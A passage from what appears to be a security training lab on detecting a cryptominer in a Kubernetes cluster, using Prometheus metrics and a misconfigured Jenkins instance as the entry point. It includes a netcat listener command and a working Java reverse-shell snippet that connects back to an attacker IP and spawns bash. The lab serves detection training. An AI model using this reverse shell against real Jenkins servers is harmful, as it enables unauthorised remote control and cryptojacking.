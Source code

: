 - *Prometheus* is an open-source cloud-native monitoring platform. It includes an instance of `node-exporter` in every node of the *k8s* cluster, which provides elemental node and application metrics (CPU usage, memory, networking, etc.). Access the `prometheus` tab to observe all the available metrics. For example, you can learn more about the *rate of CPU usage per pod*:

```shell
sum (rate (container_cpu_usage_seconds_total{pod!=""}[3m])) by (pod)
```

- *Jenkins* is the leading open-source automation service. This tool helps many teams to build, test, and deploy software.

In this training, a misconfigured instance of *Jenkins* is being used as the entry point to run a crypto-miner in the *Jenkins* pod.

###### Step2: Attack

- 1. Launch a reverse shell

     Retrieve the IP of the machine. It will be required to connect to the [*reserve shell*](https://play.instruqt.com/embed/sysdig/tracks/falco-prometheus-cryptomining-detect/challenges/exploit-the-vuln/assignment) running in the attacker machine:

  ```shell
  ATTACKER_IP=$(ip route get 1 |awk '{print $7}')
  echo $ATTACKER_IP
  ```

  2. Copy the value for later use. After this, launch a reverse shell listening on port *4242* with:

  ```shell
  nc -nlvp 4242
  ```

  ![image-20220518103958351](./resource/image-20220518103958351.png)

  3. Login Jenkins, retrieve and edit the exploit snippet by modifying the `String host` value with the *IP* in the previous step.

     ```shell
     String host="10.132.1.157";
     int port=4242;
     String cmd="bash";
     Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
     ```
